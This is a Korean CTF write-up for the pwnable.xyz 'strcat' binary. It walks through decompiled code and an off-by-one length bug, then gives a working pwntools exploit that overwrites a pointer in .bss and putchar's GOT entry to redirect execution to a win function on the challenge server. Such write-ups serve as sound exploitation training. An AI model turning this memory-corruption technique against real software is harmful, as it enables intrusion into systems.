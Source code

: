 ```yaml
---
title: "[pwnable.xyz]strcat"
date: 2020-1-30
ctf: Pwnable.xyz
layout: post
---
```


Canary, PIE가 안걸려있다.

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

바이너리는 3개 메뉴로 되어있다. concat, edit, print 으로 되어있다.

concat메뉴는 maxlen-strlen(name) 만큼 입력받고 maxlen에서 readline 리턴 값만큼 빼준다.

edit메뉴는 desc 힙영역에 값 수정할 수 있다.

print메뉴에서는 fsb가 터진다.

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  signed __int64 v3; // rsi
  char *v4; // rdi
  int v5; // eax
  int v6; // ebx
  unsigned int v7; // ebx

  setup();
  puts("My strcat");
  maxlen = 128;
  printf("Name: ", argv);
  maxlen -= readline(name, 128);
  desc = malloc(32uLL);
  printf("Desc: ", 128LL);
  v3 = 32LL;
  v4 = desc;
  readline(desc, 32);
  while ( 1 )
  {
    print_menu(v4, v3);
    printf("> ");
    v5 = read_int32();
    switch ( v5 )
    {
      case 2:                                   // edit
        printf("Desc: ");
        v3 = 32LL;
        v4 = desc;
        readline(desc, 32);
        break;
      case 3:                                   // print
        printf(name);
        printf(desc);
        v4 = '\n';
        putchar('\n');
        break;
      case 1:                                   // concat
        printf("Name: ");
        v6 = maxlen;
        v7 = v6 - strlen(name);
        v3 = v7;
        v4 = &name[strlen(name)];
        maxlen -= readline(v4, v7);
        break;
      default:
        v4 = "Invalid";
        puts("Invalid");
        break;
    }
  }
}
```

readline 함수인데 리턴을 strlen(name) - 1을 해준다.

```c
__int64 __fastcall readline(void *a1, int a2)
{
  int v2; // eax

  read(0, a1, a2);
  v2 = strlen(name);
  *(a1 + v2 - 1) = 0;
  return (v2 - 1);
}
```

이를 이용해서 풀 수 있다. strlen(name) -1을 해줘서 리턴하는데 만약 1번 메뉴에서 maxlen -= readline() 해주는데 strlen(name)의 길이가 0이면 readline 리턴이 -1이니까 maxlen을 계속 늘려줄 수 있다.

```
maxlen 0x0000000000602280 (32)
name 0x00000000006022A0 (128)
desc 0x0000000000602320
```

bss 영역이 이렇게 있고 maxlen이 128인데 maxlen을 늘려서 desc를 덮을 수 있다. 그리고 desc에는 힙 영역을 가르키고 있으므로 이 영역을 함수 got로 덮고 edit 메뉴에서 이 got를 win함수로 덮어주면 된다

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30013)
sla = lambda x,y : p.sendlineafter(x,y)
sa = lambda x,y : p.sendafter(x,y)
win = e.symbols['win']
maxlen = 0x0000000000602280
name = 0x00000000006022A0
desc = 0x0000000000602320
puts_got = 0x602028

sa(':','A') # Name
sa(':','B') # Desc

for i in range(20):
	sa('>','1')
	sa(':','\x00')

sa('>','1')
sa(':','A'*128+'\x20\x20\x60\x20') # 0000000000602020 R_X86_64_JUMP_SLOT  putchar@GLIBC_2.2.5

sa('>','2')
sa(':',p64(win)) # putcahr@got -> win
# raw_input()

sa('>','3') 

p.interactive()
```

